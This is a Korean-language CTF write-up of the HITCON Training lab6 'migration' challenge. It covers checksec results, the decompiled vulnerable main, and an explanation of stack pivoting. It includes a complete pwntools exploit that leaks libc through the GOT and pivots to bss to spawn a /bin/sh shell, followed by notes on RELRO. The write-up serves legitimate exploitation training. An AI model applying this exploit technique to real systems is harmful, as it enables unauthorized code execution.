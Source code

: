 ```yaml
---
layout: post
title: "[HITCON Training] lab6"
comments : true
category : War Game
---
```


# 문제
***

migration 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : FULL
```

file 명령어의 결과는 다음과 같다. 
```
migration: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e65737a9201bfe28db6fe46f06d9428f5c814951, not stripped
```

바이너리 코드 
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+0h] [ebp-28h]

  if ( count != 1337 )
    exit(1);
  ++count;
  setvbuf(_bss_start, 0, 2, 0);
  puts("Try your best :");
  return read(0, &buf, 0x40u);
}
```

바이너리는 매우 간단한데, count 값 검증 이후에  read로 입력을 받고 종료한다. read 함수를 통해서 bof를 발생시킬 수 있는데 여기서 두 가지 문제점이 있다. 

1. read로 64byte 밖에 받지 않는다. (buf가 ebp-0x28에 위치하기 때문에 payload로 구성할 수 있는 공간이 매우 작다.)

2. libc_leak을 한 이후에 stack에 입력을 받아서 ROP를 이어가야 하는데 ASLR이 걸려있기 때문에 stack 주소를 알 수 없다. 

=> 2번 문제를 해결 하기 위해서 stack pivoting이 필요하다.

## exploit 방법

1. sfp에 bss_section의 주소를 넣어둔다.
2. puts 함수를 통해서 setvbuf의 got 값을 알아낸다. 이를 통해서 libc의 base address를 계산할 수 있다. 
3. main에서 read 함수를 호출하는 곳으로 ret한다. 
   read 함수는 ebp-0x28에 입력을 받기 때문에 bss_section에 write를 할 수 있다. 
   여기에 44byte의 쓰레기 값과 system 함수 및 "/bin/sh" 주소를 넣어주면 read 이후의 leave ret을 통해서 system 함수 호출이 가능하다.


# 풀이
```

#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab6/migration"
libc=ELF("/lib/i386-linux-gnu/libc.so.6")


p=process(file_path)
p.recvuntil("best :\n")


puts=0x8048390
setvbuf_got=0x8049ffc
pr=0x0804836d
main_read=0x080484f2

bss_sec=0x804a800

#stage 1
pay="A"*40
pay+=p32(bss_sec)
pay+=p32(puts)
pay+=p32(pr)
pay+=p32(setvbuf_got)
pay+=p32(main_read)

p.send(pay)

setvbuf_addr=u32(p.recv(4))
p.recv()

libc_base=setvbuf_addr-libc.symbols['setvbuf']
system=libc_base+libc.symbols['system']
sh=libc_base+list(libc.search('/bin/sh\x00'))[0]

#stage2
pay2="A"*44
pay2+=p32(system)
pay2+="BBBB"
pay2+=p32(sh)

p.send(pay2)

p.interactive()
```

# 알게 된 것
***
1. stack pivoting 
내가 원하는 곳으로 esp (ebp)를 옮겨서 stack 구성을 내 마음대로 할 수 있게 하는 것

2. puts 함수는 string의 마지막에 "\n"을 추가해서 출력한다.
근데 이 "\n"을 제대로 recv해놓지 않으면 내부적으로 뭔가가 꼬여서 이후에 내가 원하는 내용을 recv하지 못한다. 따라서 출력되는 내용을 그때 그때 recv 해놓고 처리해 놓아야 한다.!!!

3. puts, printf와 같은 함수는 stack을 매우 많이 써서 stack pivoting을 한 영역의 앞 부분이 쓸 수 없는 공간이면 위의 함수가 제대로 작동하지 않을 수 있다.
(즉, push esp나 sub esp,X 명령어를 실행하면서 계속 esp값이 감소하는데 낮은 주소 영역이 writable 하지 않은 공간이면 함수 호출을 진행하다가 터진다.) 

4. No relro => dynamic section + got 쓰기 권한 있음
   Partial relro => got 쓰기 권한 있음
   Full relro => 두 영역에 쓰기 권한 없음

c.f .dynamic section은 dtor,init fini pltgot 등으로 구성되어 있다.
